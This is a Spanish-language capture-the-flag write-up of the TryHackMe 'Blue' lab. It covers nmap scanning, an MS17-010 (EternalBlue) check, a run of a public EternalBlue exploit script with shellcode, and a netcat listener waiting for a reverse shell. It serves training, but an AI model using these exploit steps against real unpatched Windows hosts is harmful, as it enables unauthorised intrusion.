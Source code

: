 ```yaml
---
title: "tryhackme: blue"
share: false
excerpt: "El mejor metodo de aprendizaje es practicando"
share: false
header:
  teaser:  /assets/images/blue/logo.jpeg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - Ethernal blue - ms08-067
  - Windows
---
```


### Iniciamos conprobando que la maquina este encendida 

```bash
❯ ping -c 1 10.10.31.159
PING 10.10.31.159 (10.10.31.159) 56(84) bytes of data.
64 bytes from 10.10.31.159: icmp_seq=1 ttl=127 time=187 ms

--- 10.10.31.159 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 186.669/186.669/186.669/0.000 ms
❯ settarget 10.10.31.159
```

Comprobamos que _OS_ corre la maquina

```bash
❯ wichSystem.py 10.10.31.159

10.10.31.159 (ttl -> 127): Windows
```

### ahora si a realizar un primer escaneo de puertos

```bash
sudo nmap --open --min-rate 5000 -p- -sS -Pn -n 10.10.31.159 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-11 07:47 -05
Stats: 0:00:43 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 54.84% done; ETC: 07:48 (0:00:36 remaining)
Stats: 0:01:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 07:48 (0:00:00 remaining)
Nmap scan report for 10.10.31.159
Host is up (1.2s latency).
Not shown: 52538 filtered tcp ports (no-response), 12992 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49153/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 85.45 seconds
```

> How many ports are open with a port number under 1000?
> 3

vemos el resultado del escaneo anterior con la utilidad _extractPors_ y esta nos copia los puertos en la clipboard

```bash
> extractPorts allPorts
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.31.159
   5   │     [*] Open ports: 135,139,445,3389,49153
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
```
Con los puertos copiados en la clipboard procedemos a realizar un escaneo con _script_ basicos de vulnerabildades de _nmap_

> What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
> ms17-010

ahora ya sabemos que es vulnerable a _ethernalblue_, buscamos un exploit manual en _google_

![exploit manual](/assets/images/blue/manual.png)

procedemos a instalar la utilidad

- comandos 

```bash
> pip install -r requirements.txt
```

el _script_ tiene una utilidad que nos confirma que la maquina es vulnerable a _ethernalblue_

```bas
❯ python3 eternal_checker.py 10.10.125.134
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done
```

Como vemos, la maquina no esta parchada contra esta vulnerabilidad, procedemos a explotarla
nos novemos al directorio _shellcode_ como indicaa la "guia" del _scritp_

![configuracion scrit](/assets/images/blue/shell_code.png)

- ejecutamos con la configuración anterior
- toca ejecutar el comando varias veces puesto que, se bloquea la maquina y/o problemas de _eternalblue_ (algo común)

```bash
❯ python eternalblue_exploit7.py 10.10.125.134 shellcode/sc_all.bin
shellcode size: 2205
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

en otra consola ponemos nuestra laptop en escucha  y espereamos nuestra _shell_

```bash
> nc -nlvp 4444
```


